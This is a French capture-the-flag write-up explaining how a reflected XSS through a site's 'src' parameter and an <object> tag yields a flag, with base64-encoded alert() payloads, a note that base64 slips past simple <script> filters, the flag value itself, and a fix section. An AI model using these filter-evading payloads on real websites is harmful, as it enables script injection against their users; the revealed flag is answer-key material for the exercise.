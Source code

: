 ### Comment obtenir le flag
Depuis la page d'accueil, il y a lien vers la page `?page=media&src=nsa`. Cette page comporte un logo (modifié) de la NSA. En examinant le code source, on s'aperçoit que cette image ne provient pas d'une balise `<img>` (comme la plupart des autres images du site) ou d'une classe CSS (comme les icones font awesome), mais d'une balise `<object>`.  
La documentation [MDN sur cette balise](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) nous précise qu'elle doit contenir au moins un attribut `data` et un attribut `type`. Or celle du site ne contient qu'un attribut `data` ; il pourrait donc être possible d'exploiter cet oubli.  
Une recherche rapide nous amène vers un [*proof of concept*](https://bugzilla.mozilla.org/show_bug.cgi?id=530308#c27) :
```
<object
data="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="
type="image/svg+xml"></object>
```
En [décodant le contenu en base64](https://base64.guru/converter/decode), on obtient :
```
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.0" x="0" y="0" width="194" height="200" id="xss"><script type="text/ecmascript">alert("XSS");</script></svg>
```

Nous allons produire notre propre exploit :
```
<script>alert("WARING!");</script>
```
Ce qui une fois [encodé en base64](https://base64.guru/converter/encode) devient :
```
PHNjcmlwdD5hbGVydCgiV0FSSU5HISIpOzwvc2NyaXB0Pg==
```
Avec l'entête, on arrive au *payload* suivant :
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgiV0FSSU5HISIpOzwvc2NyaXB0Pg==
```

En insérant ce contenu dans l'attribut `data`, nous arrivons bien à afficher le popup. Mais pas à obtenir le flag...  
En continuant à chercher, on s'aperçoit qu'en modifiant le paramètre GET `src` dans l'URL, on obtient le message « *Sorry wrong answer* ». On essaie donc de mettre notre *payload* dans `src` : bingo ! On débloque le flag `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`.

### Expliquer la faille
L'intérêt de l'encodage en base64 est de dissimuler le code injecté (ce qui peut suffire à contourner la protection s'il s'agit d'une simple expression régulière sur `<script>`).  
Le problème de cette faille est surtout que le contenu envoyé dans le paramètre GET `src` risque d'être interprété sur la page, et qu'il serait donc possible de piéger un utilisateur avec un lien en apparence sûr (puisque provenant d'un site de confiance) mais contenant du contenu malveillant dans `src`.  

### Comment la corriger
Il faut toujours valider et filtrer tout contenu provenant de l'utilisateur, et ne jamais exécuter du contenu dont on n'est pas certain de l'origine.